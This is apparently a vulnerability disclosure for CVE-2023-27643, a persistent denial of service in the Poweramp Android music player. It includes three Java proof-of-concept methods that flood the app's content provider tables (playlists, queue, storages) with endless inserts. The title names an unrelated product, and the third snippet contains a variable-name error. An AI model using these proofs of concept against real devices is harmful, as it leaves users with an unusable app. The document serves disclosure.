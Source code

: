 ## Denial of Service exists in Super Secuirty（CVE-2023-27643）

Vendor：POWERAMP(https://powerampapp.com/)

Affected product：Poweramp (com.maxmpz.audioplayer)

Version：build-954-uni

Download link：https://play.google.com/store/apps/details?id=com.maxmpz.audioplayer

Description of the vulnerability for use in the CVE：An issue found in POWERAMP 925-bundle-play and Poweramp 954-uni allows a remote attacker to cause a denial of service via the Rescan button in Queue and Select Folders button in Library.

Additional information：Poweramp application is a famous music player used in Android system. When the user triggers some action, it loads the relevant data stored in the database into the memory. If a malicious app injects a large amount of data into the database, the Poweramp app will crash because of loading this data. Even worse, users cannot fix this security issue by simply restarting the application, and the Poweramp application will still not be able to respond to any user requests when certain actions are triggered to load the database.



1.After inserting a large amount of data into the database, it will cause the APP to take too long to load and fall into unresponsive state (the length depends on the size of the injected data), and the main page is in DoS state at this time.

poc：

```java
public void attack(){
        ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
        Uri uri = Uri.parse("content://com.maxmpz.audioplayer.data/playlists");
        while (true) {
            ContentValues contentValues = new ContentValues();
            String randomString = getRandomString(5120);
            contentValues.put("playlist",randomString);
            contentValues.put("playlist_path",randomString);
            contentResolver.insert(uri,contentValues);
        }
    }
```

<img src="CVE detail.assets/image-20230410152852696.png" alt="image-20230410152852696" style="zoom:75%;" />





2.After inserting a large amount of data into the database, when the user clicks the Rescan button in the Queue, the APP will read the queue table from the database, resulting in a DoS attack.

poc：

```java
    public void attack(){
        ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
        Uri uri = Uri.parse("content://com.maxmpz.audioplayer.data/queue");
        while (true) {
            ContentValues contentValues = new ContentValues();
            contentValues.put("folder_file_id",1);
            contentResolver.insert(uri,contentValues);
        }
    }
```

<img src="CVE detail.assets/image-20230410153051062.png" alt="image-20230410153051062" style="zoom:67%;" />



3.After inserting a large amount of data into the database, persistent DoS is triggered when the user clicks the Select Folders button.

poc：

```java
    public void attack(){
        ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
        Uri uri = Uri.parse("content://com.maxmpz.audioplayer.data/storages");
        while (true) {
            ContentValues contentValues = new ContentValues();
          	String randomString = getRandomString(5120);
            contentValues.put("path",randomstring);
          	contentValues.put("path_hash",randomstring);
            contentResolver.insert(uri,contentValues);
        }
    }
```



<img src="CVE detail.assets/image-20230410153152922.png" alt="image-20230410153152922" style="zoom:67%;" />
